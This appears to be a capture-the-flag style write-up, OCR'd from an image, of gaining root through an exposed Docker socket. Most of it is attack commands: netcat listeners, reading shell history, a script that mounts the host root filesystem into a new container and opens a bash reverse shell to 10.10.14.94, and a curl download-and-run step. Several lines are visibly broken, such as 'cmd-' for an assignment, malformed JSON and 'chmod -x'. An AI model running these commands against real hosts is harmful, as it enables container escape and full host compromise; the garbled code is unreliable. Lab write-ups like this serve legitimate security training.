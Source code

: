 ```bash

# tab 4:
nc -lvnp 7878
# get the root account
cat todo.txt

cat ./bash_history
curl -s --unix-socket /var/run/docker.sock http://localhost/image/json
# docker is accessible
# can run curl with unix socket to communicate with docker.sock
# Docker.sock allow us to create docker

```

Docker.sock exploit
- Node takeover

- mount the host/fileysystem on the new container
- container execute command whrn started
- we can mount the root ds and execute recerse shell when the container is started
- `Engine API v1.24`


```bash
# tab1:
vim exploitsock.sh
# ----------------
#!/bin/bash
# the command executed when the container is started
# change dir to tmp where the rootfs is mount and execute reverse shell
cmd-"[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i >& /dev/tcp/10.10.14.94/9898 0>&1'\\\"\"]"

# create the container and execute command, bind the root filesystem to it
# name the container 'na5c4r_root'
# -d: detached
curl -s -X POST --unix-socket /var/run/docker.sock -d "{\"Image:\":\"sandbox\",\"cmd\":$cmd.\"Binds\":[\"/:tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=na5c4r_root


# start the container
curl -s -X POST --unix-socket /var/run/docker.sock -d "http://localhost/containers/na5c4r_root/start"
# ----------------


# open a server
pyserver


# tab2: Tomcat
mkdir .na5c4r
curl http://10.10.10.10/exploitsock.sh -o exploitsock.sh
chmod -x exploitsock.sh
bash exploitsock.sh



# tab3:
nc -lvnp 9898
cat root.txt | cut -c1-20


```
